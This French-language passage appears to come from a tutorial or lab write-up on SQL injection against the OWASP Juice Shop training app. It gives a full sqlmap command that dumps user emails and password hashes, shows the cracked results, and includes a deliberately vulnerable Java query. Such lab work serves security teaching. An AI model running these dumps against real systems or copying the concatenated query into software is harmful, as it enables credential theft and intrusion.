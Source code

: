 ```
| Recycles          |
| SecurityAnswers   |
| SecurityQuestions |
| Users             |
| Wallets           |
| sqlite_sequence   |
+-------------------+
```

```
# Extraction des emails et mots de passe
sqlmap -u "http://owasp.thm:3000/rest/products/search?q=*" -p q \
  --dbms=SQLite \
  --prefix="'))" --suffix="-- " \
  --union-cols=9 --union-char=87 --technique=U \
  -T Users -C email,password --dump \
  --no-cast \
  --threads=1 --delay=0.3 --batch -v 2
```

Résultats de l'exploitation

```
+----------------------------+---------------------------------------------+
| email                      | password                                    |
+----------------------------+---------------------------------------------+
| admin@juice-sh.op          | 0192023a7bbd73250516f069df18b500 (admin123) |
| jim@juice-sh.op            | e541ca7ecf72b8d1286474fc613e5e45 (ncc-1701) |
| demo                       | fe01ce2a7fbac8fafaed7c982a04e229 (demo)     |
...
```



### Analyse de la vulnérabilité

Le code vulnérable ressemble probablement à ceci :

```java
// CODE VULNÉRABLE - NE PAS UTILISER
String query = "SELECT * FROM Products WHERE name LIKE '%" + userInput + "%'";
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(query);
```

L'entrée utilisateur est directement concaténée dans la requête SQL sans validation ni échappement.

---

## 3. Injections SQL de second ordre (Second Order SQL Injection) {#second-order-injection}

### Qu'est-ce qu'une injection de second ordre ?

Les injections SQL de second ordre sont plus subtiles et dangereuses que les injections classiques. Le code malveillant est injecté en deux temps :
